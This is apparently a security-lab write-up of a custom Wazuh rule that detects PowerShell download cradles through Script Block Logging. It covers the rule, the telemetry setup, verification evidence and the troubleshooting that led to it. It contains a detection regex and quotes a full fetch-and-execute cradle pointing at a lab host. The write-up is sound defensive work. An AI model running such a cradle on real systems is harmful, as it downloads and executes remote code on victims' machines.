



# Custom Detection Rule: PowerShell Download Cradle

UC-03 left a piece of working telemetry that raised no alert. This milestone closes that gap with the lab's first custom Wazuh rule — one that fires on the download cradle and crosses the alerting threshold. Getting there took a detour worth recording: the detection was designed against Sysmon's command line, that failed in this environment, and the rule that ships was rebuilt on PowerShell Script Block Logging instead.

The scenario this rule detects is documented in [UC-03](../investigations/UC-03/report.md); the endpoint telemetry behind it comes from the [Sysmon deployment](./09-sysmon-deployment.md) and [baseline](./10-sysmon-baseline.md). Status is tracked in the [Roadmap](../ROADMAP.md).

## The rule

The delivered rule chains to Wazuh's built-in PowerShell script-block parent and matches the markers of a fileless download-and-execute:

```xml
<rule id="100100" level="12">
  <if_sid>91802</if_sid>
  <field name="win.eventdata.scriptBlockText" type="pcre2">(?i)(DownloadString|DownloadFile|Net\.WebClient|Invoke-Expression|IEX\s*\()</field>
  <description>PowerShell download cradle detected via Script Block Logging (T1059.001)</description>
  <mitre>
    <id>T1059.001</id>
    <id>T1105</id>
  </mitre>
  <group>attack,powershell_suspicious,</group>
</rule>
```

The `if_sid 91802` ties the rule to Wazuh's built-in chain: it only runs once the ruleset has already recognised the event as a PowerShell/Operational script block, so it never reprocesses unrelated logs. The field condition reads `scriptBlockText` — the code PowerShell actually compiled and ran — and looks for a download method (`DownloadString`, `DownloadFile`, `Net.WebClient`) or an in-memory execution (`IEX`, `Invoke-Expression`). Level 12 puts it well above the threshold an analyst watches, matching what Wazuh assigns its own high-confidence process anomalies. The rule is committed at [`detection/local_rules.xml`](../detection/local_rules.xml).

## Enabling the telemetry

Script Block Logging is off by default. It was turned on for the Windows 10 endpoint through the policy registry key:

```
HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
  EnableScriptBlockLogging = 1
```

From then on PowerShell writes Event ID 4104 to the `Microsoft-Windows-PowerShell/Operational` channel for every script block it runs. The Wazuh agent picks up that channel through one `<localfile>` block, next to the Sysmon channel it already reads:

```xml
<localfile>
  <location>Microsoft-Windows-PowerShell/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```


*The policy key set to 1 on the endpoint, and the PowerShell/Operational channel added to the agent configuration.*

## Verification

Running the UC-03 cradle now produces a decoded 4104 event, the rule fires, and the alert reaches the dashboard at level 12:


*Threat Hunting filtered on `rule.id: 100100`: the download-cradle alerts from SOC-WIN10 at level 12. (The `any sysmon event1` rows are leftovers from a diagnostic rule used during troubleshooting.)*

The expanded alert carries the provider, the event ID, and the script text that matched:


*`providerName Microsoft-Windows-PowerShell`, `eventID 4104`, and `scriptBlockText` holding the full cradle: `IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.40/payload.ps1')` — mapped to T1059.001 and T1105.*

| Check | Expected | Observed | Evidence |
|---|---|---|---|
| Rule loaded | The manager starts with rule 100100 active | `local_rules.xml` in place, manager active, no syntax errors | [02-local-rules-xml.png](./img/11-rule/02-local-rules-xml.png) |
| Telemetry present | The endpoint writes 4104 for the cradle | Script Block Logging on; 4104 events in the PowerShell channel | [01-scriptblock-logging-enabled.png](./img/11-rule/01-scriptblock-logging-enabled.png) |
| Alert raised | The cradle produces a level-12 alert attributed to SOC-WIN10 | Rule 100100 fired, `scriptBlockText` carrying the cradle command | [03](./img/11-rule/03-alert-dashboard.png), [04](./img/11-rule/04-alert-detail.png) |

The activity that stayed silent in UC-03 is now an alert worth acting on. The chapter set out to turn telemetry into detection, and this is the point where it first happens.

## Why the rule is built on 4104, not Sysmon

The detection was designed against Sysmon Event 1. The cradle runs as a `powershell.exe` process whose command line holds `IEX ... DownloadString(...)`, so the plan was a rule matching `win.eventdata.commandLine`. Sysmon captured that command line cleanly — it was right there in the archived events — and the rule looked routine. It never fired.

Finding out why meant taking the rule apart one condition at a time, and each step ruled something out:

- A rule matching `win.eventdata.image` fired; the same rule matching `win.eventdata.commandLine` did not. The field-matching mechanism worked, just not on that field.
- Every regex approach was tried against `commandLine` — OS_Regex, PCRE2, a single literal word, `.*` wildcards — plus a `<match>` against the whole log. Nothing matched, though the value plainly held the string.
- A rule set to fire on *any* Sysmon Event 1 still missed the cradle's own process-creation event and only caught unrelated PowerShell launches. The cradle's event was reaching the archives but not the rule engine.

So the problem was the event, not the rule. The cradle's Event 1, produced under a verbose Sysmon configuration, was not reaching rule evaluation the way simpler events did, while the archives — written on a separate path — still recorded it in full. Running that down further meant digging into the analysis engine for a detection that had a better source anyway.

Script Block Logging is that source. Matching an attacker's command line is a fragile way to catch a download cradle; reading the script PowerShell actually executed is a sturdier one, and it is what Wazuh's own ruleset relies on for PowerShell — rules 91805 through 91846 all read `scriptBlockText`. Enabling 4104, pointing the agent at the channel, and writing the same logic against `scriptBlockText` worked on the first test: a small, clean event and the right field for the job.

Two things carry forward from this. A rule that refuses to fire can be a sign to change the telemetry rather than the regex — the source of a detection is as much a design choice as its logic. And the way a test is triggered shapes the event it produces, so a test should mimic how the real activity runs, not just its end result.

## Known limitations

- The rule matches the cradle's plain-text markers. An attacker who Base64-encodes the command (`-enc`) or obfuscates the string would slip past this exact pattern; Wazuh's rule 91809 already covers the `FromBase64String` case, and broader obfuscation handling is tuning work beyond this milestone.
- Script Block Logging is verbose. It records every script block, benign administrative scripts included, so the rule's precision rests on how specific its markers are — which is what the next milestone measures against normal activity.
- The rule has not yet run against a full day of ordinary PowerShell use. False-positive review and tuning are milestone C2-06.

## Evidence

Screenshots supporting this document, sanitized before publication:

| File | What it shows |
|---|---|
| `img/11-rule/01-scriptblock-logging-enabled.png` | The policy key enabling Script Block Logging and the channel in the agent config |
| `img/11-rule/02-local-rules-xml.png` | Rule 100100 in `local_rules.xml` |
| `img/11-rule/03-alert-dashboard.png` | The custom rule firing at level 12 in Threat Hunting |
| `img/11-rule/04-alert-detail.png` | The decoded 4104 alert with the cradle in `scriptBlockText` |
